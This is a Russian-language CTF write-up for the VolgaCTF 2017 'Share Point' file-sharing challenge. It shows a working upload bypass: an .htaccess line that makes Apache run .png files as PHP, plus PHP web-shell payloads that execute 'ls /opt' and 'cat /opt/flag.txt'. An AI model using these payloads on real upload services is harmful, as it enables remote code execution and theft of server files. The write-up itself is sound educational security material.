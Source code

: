 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is **opt**imal

### Solution
Авторизация на сайте выдала себя в самом начале, логин и пароль соответствуют следующим регулярным выражениям:  
`login [\w]{4,}`  
`pass  [\w]{8,}`

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)

Так как сайт связан с загрузкой файлов, проверяем какие форматы он принимает.  
Грузим пустой файл index.php для проверки и видим, что нам отказано.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)

Ладно, пробуем загрузить файл с раширением "png".

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)

Всё загрузилось, файл видно и он отрабатывается, его можно скачать или посмотреть.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)

Были проведены попытки загрузить файл с раширением "png" с кодом PHP внутри, путем подмены названия файла в программе перехвата трафика Charles. Сайт всё также не позволил загрузить, так как проверка стояла после загрузки файла.  
Пробуем другой вариант. В ответах сервера мы видем там стоит Apache:

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_9.png)

Загружаем файл ".htaccess"
Этот файл позволяет управлять разными настройками сервера Apache.  
Вот содержимое нашего файла которое говорит серверу отрабатывать файлы формата "png" как PHP код.

[.htaccess](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/.htaccess)

```
AddHandler application/x-httpd-php .png
```
Загрузка прошла успешно, теперь пробуем повторить наши действия с загрузкой изображения с PHP кодом.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)

После подсказки о расположении флага, где жирным было выделено его расположение, травим туда наш код:

[ls.png](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/ls.png):

```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```

Пытаемся открыть наш файл, возвращаемся назад и видим, что наш скрипт сработал, создался файл "ls.txt" с содержимым "/opt":

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)

В этой дирректории лежит файл с интересующим нас названием, отправляем второй файл с аналогичным содержанием, что бы его прочитать:

[cat.png](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/cat.png):

```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
В ответ получаем на флаг:

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
